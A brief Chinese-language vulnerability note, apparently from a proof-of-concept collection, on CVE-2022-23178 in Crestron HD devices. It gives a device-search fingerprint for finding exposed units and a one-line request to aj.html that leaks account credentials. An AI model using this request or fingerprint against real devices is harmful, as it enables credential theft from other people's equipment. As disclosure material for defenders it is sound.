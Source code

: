 # 

# Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

```
Crestron HD等系列设备
```

## 网络测绘

```
app="Crestron-HD-RX-201-C-E"
```

## 漏洞复现

POC

```
/aj.html?a=devi
```

![image-20220519161948146](./images/202205191619189.png)
